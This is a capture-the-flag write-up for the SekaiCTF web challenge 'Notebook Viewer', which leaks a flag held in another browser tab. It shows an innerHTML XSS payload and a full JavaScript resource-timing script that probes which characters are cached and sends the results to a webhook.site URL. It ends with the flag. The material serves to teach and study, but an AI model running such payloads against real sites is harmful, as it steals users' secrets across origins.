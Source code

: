```yaml
---
title: Notebook Viewer
summary: Miku created this notebook, can you extract its secrets?
tags: [SekaiCTF, Web, Timing Attack]
date: 2025-08-18
showtoc: true
---
```


# Notebook Viewer

## Description

Miku created this notebook, can you extract its secrets?

Flag format: `SEKAI{[a-zA-Z0-9{}$@(<&!*#+_\-]+}`

Difficulty: 🔶🔶🔶🔷  
Author: Qyn

[Admin bot](https://ctf.sekai.team/adminbot/nbv)  
[Given files](/sekaictf/notebook-viewer/nbv-dist.7z)

## Solution

The challenge presents a single HTML page displaying a notebook.

![index.html](/sekaictf/notebook-viewer/index.png)

From examining the bot's source code, we know that we need to retrieve the secret note from another browser tab.

```adminbot.js
let page1 = await browser.newPage();
await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
    waitUntil: "networkidle2"
});

let page2 = await browser.newPage();
await page2.goto(url);
```

At first glance, this seems impossible because browser tabs typically can't interact with each other.
However, let's explore further.

The first thing I attempted was an XSS attack in the secret note with `?note=<img src=x onerror=alert('XSS') />`, but this didn't work.
I then inspected the page's JavaScript code to see if any sanitization was applied.
There was no sanitization, but the text was displayed in a peculiar way: each letter was rendered in its own iframe, preventing the XSS from executing.

```index.js
const uri = new URL(location.href);
const note = uri.searchParams.get('note') || 'my secret notes';

function srcFor(i, code) {
  return `https://nbv-${i}-${code}.chals.sekai.team/`;
}

for (let i = 0; i < note.length; i++) {
  const code = note.codePointAt(i);
  const frame = document.createElement('iframe');
  frame.scrolling = 'no';
  frame.src = srcFor(i, code);
  wrap.appendChild(frame);
}
```

Upon inspecting the iframe code, I discovered that it simply displayed the letter specified in its URL or the text passed through the query parameter.
This opened the door for an XSS vulnerability.

```frame.js
let uri = new URL(location.href);
const note = uri.searchParams.get("note");
const txt = document.querySelector('#note');

if (note)
    txt.innerHTML = note;
else
    txt.innerHTML = String.fromCharCode(uri.host.split('-')[2].split('.')[0]);
```

At this point, I had reviewed the provided files, understood how the application worked, found an XSS vulnerability, but still had no clear idea on how to retrieve the flag.

Then, I asked myself: why does the `srcFor` function include the character position when building the iframe URL? It isn't use by the iframe.
That's when it clicked: the combination of the character position and code was used to generate a unique URL for each letter, which potentially exposed the website to a resource timing attack.

Let's break down how the website operates:
- The flag is stored as a secret note.
- For each letter, the website sends a request to a URL containing the letter's position and code, and displays the letter in an iframe.
- Because the browser caches these requests, we can exploit this by making requests for all possible letters and observe which one is served fastest.
- The letter that is served the quickest will be the one already cached, meaning it’s part of the flag.

To automate this process, I wrote a script that attempts all characters for a given position and reports the most probable characters, ordered by fetch time, via a webhook.
While I could have attempted to guess multiple letters at once, I avoided this as it might have caused the flag request to become uncached due to the large volume of requests made by the script.

```js
const INDEX = 1; // Letter position
const CHARSET = shuffle(
  // Shuffle the charset to avoid giving an advantage to the first letters
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}@(<&!*#+_-",
);

const URL = (i, code) => `https://nbv-${i}-${code}.chals.sekai.team/`;
const WEBHOOK = "https://webhook.site/e5245448-2fa6-417d-9348-65d36f92d28e/";

function shuffle(str) {
  const array = str.split("");
  for (let i = array.length - 1; i > 0; i--) {
    const j = Math.floor(Math.random() * (i + 1));
    [array[i], array[j]] = [array[j], array[i]];
  }
  return array.join("");
}

function sort(dict) {
  let items = Object.keys(dict).map(function (key) {
    return [key, dict[key]];
  });

  items.sort(function (first, second) {
    return first[1] - second[1];
  });

  return items.map((key) => key[0]);
}

async function timingAttack() {
  const fetchPromises = []; // Array to store all fetch promises
  const charTimes = {}; // Object to store character-fetch times

  // PerformanceObserver to monitor network fetch timings
  let observer = new PerformanceObserver((list) => {
    list.getEntries().forEach((entry) => {
      const timeToFetch = entry.responseEnd - entry.fetchStart;
      if (timeToFetch > 0 && entry.name.includes("chals.sekai.team")) {
        const char = String.fromCharCode(
          entry.name.split("-")[2].split(".")[0],
        );
        charTimes[char] = timeToFetch;
      }
    });
  });

  observer.observe({ type: "resource", buffered: true });

  // Fetch the iframe URL for each character
  for (const c of CHARSET) {
    fetchPromises.push(fetch(URL(INDEX, c.charCodeAt(0)), { mode: "no-cors" }));
  }

  // Wait for all fetch requests to complete
  await Promise.all(fetchPromises);

  observer.disconnect();

  // Send the results (sorted character fetch times) to the webhook
  fetch(`${WEBHOOK}?${INDEX}=${encodeURIComponent(sort(charTimes).join(""))}`, {
    mode: "no-cors",
  });
}

timingAttack();
```

To execute the script, I used the XSS vulnerability I discovered earlier, embedding the link to the admin bot: `https://nbv-0-83.chals.sekai.team/?note=<img src=x onerror='[URL_ENCODED_SCRIPT]' />`.
Using this technique, I was able to retrieve the entire flag, one letter at a time, by sending my link to the admin bot 4-5 times per letter to determine the consistently fastest letter.

```
SEKAI{prOc3s5_IsoLAT10n_X5l34K5_fTW}
```

# References

* Practical CTF: [Timing Attacks](https://book.jorianwoltjer.com/cryptography/timing-attacks)
